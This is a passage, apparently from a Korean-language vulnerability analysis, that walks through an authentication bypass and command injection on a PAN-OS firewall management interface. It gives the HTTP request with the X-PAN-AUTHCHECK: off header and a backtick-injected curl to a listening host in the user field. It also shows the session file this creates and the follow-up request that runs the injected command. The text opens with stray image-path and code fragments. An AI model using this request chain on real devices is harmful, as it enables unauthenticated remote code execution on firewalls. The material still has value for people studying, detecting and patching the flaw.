 ```
 26
 27 session_write_close();
 28

```


### 요청 예시

```
POST /php/utils/createRemoteAppwebSession.php/aaaa.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

user=`curl {{listening-host}}`&userRole=superuser&remoteHost=&vsys=vsys1
```

### 응답 예시

```
HTTP/1.1 200 OK
Date: Tue, 19 Nov 2024 09:06:44 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 48
Connection: keep-alive
Set-Cookie: PHPSESSID=isbhbjpdkhvmkhio0hcpsgmtk6; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache; no-store

@start@PHPSESSID=isbhbjpdkhvmkhio0hcpsgmtk6@end@

```

응답으로 온 세션은 파일 시스템에 아래와 같이 생성됩니다. 이 세션 데이터는 이후 로직에서 `userName` 값으로 읽혀 명령어가 실행됩니다.


```
[root@PA-VM /]# cat ./opt/pancfg/mgmt/phpsessions/sess_isbhbjpdkhvmkhio0hcpsgmtk6
cmsRemoteSession|s:1:"1";panorama_sessionid|s:5:"dummy";user|s:16:"XXXX";userName|s:52:"`curl {{listening-host}}`";userRole|s:9:"superuser"
```

조작된 세션으로 `index.php`에 요청하면,`AuditLog::write` 함수가 호출되며, 이 과정에서 세션 데이터에 포함된 명령어가 실행됩니다.

```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=2jq4l1nv43idudknmhj830vdde;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```
